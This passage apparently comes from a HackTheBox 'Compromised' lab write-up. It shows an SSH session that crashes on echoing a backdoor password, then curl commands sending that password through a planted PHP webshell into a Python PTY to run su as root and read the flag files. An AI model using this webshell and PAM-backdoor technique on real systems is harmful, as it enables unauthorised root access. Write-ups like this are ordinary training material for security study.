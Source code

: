 

Interestingly, if I try to even `echo` that string, it crashes my SSH
connection:



    root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
    Last login: Mon Jan 18 19:28:09 2021 from 10.10.14.4
    mysql@compromised:~$ echo "2wkeOU4sjv84ok"
    2wkeOU4sjv84ok
    mysql@compromised:~$ echo "2wkeOU4sjv84ok/"
    Connection to 10.10.10.207 closed by remote host.
    Connection to 10.10.10.207 closed.



Perhaps trying to run `setuid(0)` as an unprivileged user is causing a
crash.

## Beyond Root - Root from Webshell

It turns out that [this
trick](https://www.sans.org/blog/sneaky-stealthy-su-in-web-shells/)
works to run `su` from the webshell. The
[TheATeam](https://www.hackthebox.eu/home/teams/profile/1750) got first
blood by using the webshell to find the PAM backdoor, and then executing
it from the webshell like this:



    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/SVR49.php --data-urlencode "c=(sleep 1; echo zlke~U3Env82m2-) | python3 -c \"import pty;pty.spawn(['/bin/su','-c','id']);\""
    Password: 
    uid=0(root) gid=0(root) groups=0(root)



The trick here is to use `sleep` to allow the Python PTY time to start,
and then to send the `su` password (that is accepted because of the
backdoored PAM module) into that PTY with the command. Both flags can be
read from here:



    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/SVR49.php --data-urlencode "c=(sleep 1; echo zlke~U3Env82m2-) | python3 -c \"import pty;pty.spawn(['/bin/su','-c','cat /home/*/user.txt /root/root.txt']);\""
    Password: 
    46dbea70************************
    77c16789************************







